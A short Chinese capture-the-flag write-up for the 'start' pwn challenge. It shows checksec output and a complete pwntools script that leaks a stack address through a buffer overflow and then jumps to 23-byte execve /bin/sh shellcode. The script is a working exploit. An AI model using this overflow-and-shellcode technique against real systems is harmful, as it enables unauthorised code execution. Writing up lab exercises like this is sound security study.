

- `bss`



```shell
bamuwe@qianenzhao:~$ checksec start
[*] '/home/bamuwe/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

保护全关,但不能看伪代码,只能看汇编

思路:

1. 通过溢出泄露`buf(输入数据)`地址
2. 跳转到`buf`地址,写入`shellcode`
3. 跳转到`buf`地址,执行`shellcode`拿到`shell`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
io = gdb.debug('./start')
padding = b'A'*0x14
buf_addr = 0x8048087
shellcode=b"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80"

def leak():
    global buf_addr
    payload = padding+p32(buf_addr)

    io.sendafter( b"Let's start the CTF:",payload)
    buf_addr = u32(io.recv(4))
    print('buf_addr->',hex(buf_addr))
    return 0

def pwn():
    global shellcode
    payload = padding+p32(buf_addr+0x14)+shellcode
    io.send(payload)
    return 0

leak()
pwn()
io.interactive()
```

>需要注意的是,这里`buf`空间长度不足,所以需要另外找一个`shellcode`而不能使用直接生成的`shellcode`,直接生成的`shellcode`长度会在$21~60$之间

